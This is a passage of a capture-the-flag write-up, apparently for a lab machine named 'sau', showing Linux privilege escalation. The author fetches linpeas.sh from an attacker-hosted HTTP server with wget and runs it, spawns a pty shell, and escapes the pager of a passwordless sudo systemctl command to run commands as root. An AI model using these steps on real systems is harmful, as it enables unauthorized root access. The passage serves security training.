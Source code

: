 ```
$ls
linpeas.sh
$python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
And from the target:
```
wget http://10.10.14.59:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
Because it is not very nice to not have a prompt, I upgrade the prompt using Python:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'           
puma@sau:/tmp$
```
In the `linpeas` report, there is something interesting in the sudo and suid section:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
We can see that a command can be run with sudo and no password. There is a section for the command `systemctl` in [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo). You can run system command through the `systemctl` because some text is displayed through `less`:
```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sat 2023-10-28 14:23:56 UTC; 1h 47min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 879 (python3)
      Tasks: 21 (limit: 4662)
     Memory: 313.2M
     CGroup: /system.slice/trail.service
             ├─  879 /usr/bin/python3 server.py
             ├─ 1365 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─ 1366 sh
             ├─ 8722 gpg-agent --homedir /home/puma/.gnupg --use-standard-socke>
             ├─16239 python3 -c import pty; pty.spawn("/bin/bash")
             ├─16240 /bin/bash
             ├─16251 sudo /usr/bin/systemctl
             ├─16253 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─16254 sh
             ├─16255 python3 -c import pty; pty.spawn("/bin/bash")
             ├─16256 /bin/bash
             ├─16267 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─16268 sh
             ├─16269 python3 -c import pty; pty.spawn("/bin/bash")
lines 1-23!ls
!llss!ls
CHANGELOG     core    maltrail-sensor.service  plugins		 thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf	       sensor.py
README.md     html    misc		       server.py
```